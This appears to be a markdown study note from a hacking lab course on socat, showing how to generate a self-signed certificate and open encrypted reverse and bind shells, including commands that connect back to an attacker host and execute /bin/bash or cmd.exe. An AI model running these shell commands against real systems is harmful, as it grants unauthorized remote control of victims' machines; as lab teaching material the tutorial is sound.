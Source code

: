 
## Command

```Terminal
socat <options> TCP4:IP:PORT

or

socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 - 
```

- Options  ---> https://www.redhat.com/sysadmin/getting-started-socat
- TCP4      ---> Type of network connection

- Certification Creation (Important Before Using Socat)

	We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

	```Terminal
	openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt  
	```

	This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.  

	We then need to merge the two created files into a single `.pem` file:

	```Terminal
	cat shell.key shell.crt > shell.pem  
	```

	Now, when we set up our reverse shell listener, we use:

	```Terminal
	socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
	```

	This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate _must_ be used on whichever device is listening.  

	To connect back, we would use:

	```Terminal
	socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
	```

	The same technique would apply for a bind shell:

	Target:
	
	```Terminal
	socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
	```

	Attacker:

	```Terminal
	socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -  
	```

	Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

	The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

	![](https://i.imgur.com/UbOPN9q.png)  

	This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.


## What is Socat

Socat is like netcat on steroids. It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1.  The syntax is more difficult
2.  Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.